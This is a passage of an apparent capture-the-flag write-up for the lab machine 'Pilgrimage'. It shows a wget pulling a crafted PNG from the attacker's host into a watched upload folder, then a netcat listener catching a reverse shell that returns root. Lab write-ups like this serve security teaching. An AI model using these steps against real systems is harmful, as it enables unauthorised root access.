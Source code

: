 ```bash
emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ wget http://10.10.14.17:8000/test.png
--2025-04-06 08:26:23--  http://10.10.14.17:8000/test.png
Connecting to 10.10.14.17:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 681 [image/png]
Saving to: ‘test.png’

test.png           100%[================>]     681  --.-KB/s    in 0s      

2025-04-06 08:26:24 (2.09 MB/s) - ‘test.png’ saved [681/681]



emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ ls -al
total 12
drwxrwxrwx 2 root  root  4096 Apr  6 08:26 .
drwxr-xr-x 7 root  root  4096 Jun  8  2023 ..
-rw-r--r-- 1 emily emily  681 Apr  6 08:24 test.png
```

Then, I can see that listener captures a shell.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.219] 43602
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

I got a root shell!